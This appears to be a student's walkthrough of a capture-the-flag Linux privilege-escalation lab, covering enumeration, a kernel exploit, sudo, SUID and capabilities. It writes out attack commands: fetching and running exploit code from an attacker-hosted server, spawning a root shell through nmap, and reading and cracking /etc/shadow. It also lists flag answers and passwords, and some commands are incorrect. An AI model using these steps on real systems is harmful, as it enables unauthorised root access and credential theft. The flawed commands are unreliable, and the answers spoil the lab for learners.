 # Linux Privilege Escalation
Learn the fundamentals of Linux privilege escalation. From enumeration to exploitation, get hands-on with over 8 different privilege escalation techniques.
## Enumeration
what is the hostname of the target system
```
$ hostname
$ wade7363
```
What is the linux kernel version of the target system.
</br>
The `uname` command gives system information, and with `-r` switch, it gives the kernel release.
```
$ uname -r
$ 3.13.0.24-generic
```
What Linux is this.
</br>

```
$ cat /etc/os-release
NAME = "Ubuntu Linux"
```
What version of the Python Language is installed on the system
```
$ python --version
2.7.6
```
What vulnerability seems to affect the kernel of the target system? (Enter CVE number)
+ Copy the kernel version obtained earlier
+ Search the CVE number on databases like exploit-db by pasting the version + keyword "CVE" on google
+ Download and run the code on the remote machine
```
CVE-2015-1328
```
## Privilege escalation: kernel exploits
On local machine: 
http.server is being used because only machines within the tryhackme network can be used with `wget`
```
$ wget https://www.exploit-db.com/download/37292 > exploit.c && mv exploit.c /tmp
$ python -m http.server 12000
$ ip addr
(copy tun0 IP)
```
On remote machine:
```
$ wget http://HOST_IP:12000 
$ gcc exploit.c && ./a.out
```
What is the content of the flag1.txt?
```
THM-28392872729920
```
## Privilege escalation: sudo
How many programs can the user "karen" run on the target system with sudo rights?
```
$ sudo -l
```
Answer: 3

What is the content of the flag2.txt?
```
$ cat /home/ubuntu/flag2.txt
THM-402028394
```
How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

we will find this in here: https://gtfobins.github.io/gtfobins/nmap/
```
$ sudo nmap --interactive
```
what is the hash of frank's password?
`less` has root permisssions
```
$ sudo less /etc/shadow
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLH
```
## Pirivlege escalation: SUID
SUID is basically a file permission used to read/write/execute files as root, only a specific user has root access to the files
+ Finding out packages with SUID set
```
$ find / -type f -perm -0400 2> /dev/null
```
we can use base64 because it has the SUID bit
```
$ base64 /etc/shadow | base64 --decode
$ base64 /etc/passwd | base64 --decode
```
+ Copy down the outputs into files `passwd.txt` and `shadow.txt` 
+ Use the `unshadow` package to combine both
+ Use `John the ripper`
```
$ unshadow passwd.txt shadow.txt > passwords.txt
$ john passwords.txt
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
test123          (gerryconway)
Password1        (karen)
Password1        (user2)
```
Which user shares the name of a great comic book writer?
</br>
gerryconway
</br>
What is the password of user2?
</br>
Password1   
</br>
What is the content of the flag3.txt file?
```
$ ssh user2@MACHINE_IP
$ cd /home/Ubuntu
$ base64 flag3.txt | base64 --decode
```

## Privilege escalation: Capabilities
How many binaries have set capabilities?
(even i'm not sure)
```
getcap -r / 2>/dev/null
```
What other binary can be used thorugh its capabilities?
</br>1
view
</br>
What is the content of the flag4.txt file?
```
cd ../ubuntu/
cat flag4.txt
```



